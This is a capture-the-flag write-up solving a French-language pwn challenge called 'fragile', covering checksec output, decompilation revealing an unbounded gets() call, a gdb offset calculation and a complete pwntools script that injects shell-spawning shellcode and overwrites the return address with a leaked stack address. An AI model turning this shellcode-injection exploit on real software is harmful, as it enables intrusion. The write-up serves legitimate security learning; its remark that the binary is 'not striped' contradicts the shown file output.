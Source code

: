 Before we start you need to download the binary from here : [Binary](./fragile).

Here we go let's start by running the binary and see what we have : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ ./fragile
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7fff8ec7ec20
Asslema ya Hmema
````

As you can see the binary gave us some random memory address with a beautiful hello in *french*. Why don't we start by checking the architecture of the binary with the file command : 
```console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ file fragile
```
We got : 

````bash
fragile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a457609506482cdebb144dbacd9c1f6fba34955, stripped
````
As we can see the architecture of the binary is 64 bit, it's also dynamically linked and not striped. Let's try checking out the mitigations that is ON : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ pwn checksec fragile
````

We got : 

````bash 
[*] '/mnt/c/Users/IR0NYTE/Desktop/ctf/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
````

So as you can see we have no stack canary protecting the stack from overriding the return of the program, we also have the right to execute code in the stack since the **NX** is disabled. Since this two mitagations are off i was curious a little of bit to know more about this random address that the binary was throwing at me so i fired up my ghidra and started making some analysis on it, i tried to decompile the main. Here's what i got : 

<img src = "./404_CTF_sansProtection.png">

After a quick look at the main, i noticed that there was a call to the **gets** function wich was a little of bit wired since the **gets** function have no limit on the size of the input which can lead to a buffer overflow attack. After that, i have noticed also that the address that the program was displaying was the address of the buffer. The idea is quite simple, we will try to inject a 64 bit shellcode in the beginning of the buffer from [Shell Storm](https://shell-storm.org/shellcode/) which will spawn for us a shell (*system("bin/bash")* Syscall), after that we will try to overflow the buffer until we get to the return address of the program then just redirect the return to the address of the buffer to execute our malicious shellcode. so we need to calculate the offset between the buffer and the return address. Let's fire up the gdb and set a break point after that **gets** call than i just typed in "mike" and then tried to calculate the offset from there :

````gdb
gef➤  search-pattern "mike"
[+] Searching 'mike' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "mike\n"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe0f0 - 0x7fffffffe0f4  →   "mike"
gef➤  i f
Stack level 0, frame at 0x7fffffffe140:
 rip = 0x400662; saved rip = 0x7ffff7e0d7fd
 called by frame at 0x7fffffffe210
 Arglist at 0x7fffffffe0e8, args:
 Locals at 0x7fffffffe0e8, Previous frame's sp is 0x7fffffffe140
 Saved registers:
  rbp at 0x7fffffffe130, rip at 0x7fffffffe138
````
Offset = 0x7fffffffe138 - 0x7fffffffe0f0 = 0x48.

Here's the final exploit : 

````python
from pwn import *

#target = remote('challenge.404ctf.fr', 31720)
target = process('./fragile') 

# Setting up the leak
# 0x7ffe3c40e910
screen = target.recvline().decode()
leak = target.recvline().decode().strip("Cadeau :").strip("\n")
leak = bytes(leak, 'utf-8')
leak = int(leak, 16)

# Print the leak
print("Leak : ", hex(leak))

# Setting up the Payload
offset = 0x48
payload = b""
payload += b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload += b"A"*(offset - len(payload))
payload += p64(leak)

#gdb.attach(target, gdbscript='b* 00400668')
target.sendline(payload)
target.interactive()
````





